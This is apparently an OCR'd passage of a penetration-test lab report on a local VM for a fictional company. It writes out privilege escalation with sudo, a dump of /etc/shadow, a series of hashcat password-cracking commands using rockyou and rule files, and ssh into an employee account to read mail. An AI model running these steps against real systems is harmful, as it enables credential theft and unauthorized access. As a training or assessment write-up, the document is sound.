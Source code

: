Diving deeper into these exploits, we discovered these vulnerabilities allowed us to gain access to a file called shadow in the /etc folder which contains all the hashes for employees.

The following commands were used once we had access into IRC:

Escalating privileges from tyler@vagrant:
```
-   Sudo su
```
**1.  You should now be root@vagrant**

**2.  Navigate to the /etc folder and get hash dump**

```
-   cd /etc
-   cat shadow
```
![|inline](https://s2.loli.net/2023/12/10/Izt8vnsPQeHGUxq.png)

On a separate terminal create a text file using nano or vim and copy everything from the first dollar sign up to the semicolon before the numbers e.g.

![|inline](https://s2.loli.net/2023/12/10/kxTaD1z97WHtZV6.png)


**3.  With 7 lines of hashed passwords in our text file, we can now create a wordlist to guess against all 7 hashes at the same time using Hashcat.**

**4.  These following Hashcat commands were used to crack the hashed passwords. To see which passwords have been cracked with these commands refer to Section III:**

```
-   Hashcat -m500 -a 1 --force -o crackedpasswords.txt Humblifyhash.txt /usr/shared/wordlist/rockyou.txt custom_wordlist.txt

-   Hashcat -m500 -a 0 --force -o crackedpasswords.txt Humblifyhash.txt /usr/shared/wordlists/rockyou.txt

-   Hashcat -m500 -a 0 --force -o crackedpasswords.txt Humblifyhash.txt -r /usr/share/hashcat/rules/best64.rule /usr/shared/wordlists/rockyou.txt

-   Hashcat -m500 -a 0 --force -o crackedpasswords.txt Humblifyhash.txt -r /usr/share/hashcat/rules/best64.rule custom_dictionary.txt

-   Hashcat -m500 -a 0 --force -o crackedpasswords.txt Humblifyhash.txt -r /usr/share/hashcat/rules/toggles5.rule /usr/shared/wordlists/rockyou.txt

-   Hashcat -m500 -a 0 --force -o crackedpasswords.txt Humblifyhash.txt -r /usr/share/hashcat/rules/toggles5.rule custom_dictionary.txt

-   Hashcat -m 500 -a 1 --force -o crackedpasswords.txt Humblifyhash.txt custom_dict.txt custom_dict.txt

The team looking for the passwords to access the Salary_App.php on the website by pointing to Brent Curtis as he is the Billing and Revenue person.

-   Gaining access to his account through ssh using his username and password with the following command: ssh bcurtis@192.168.56.200.

-   Listing all directory and file in the main page of his account first using: ls -al

-   Going to the “mail” directory using the command: cd mail

-   There are 2 text file, using cat command to read the file:
```
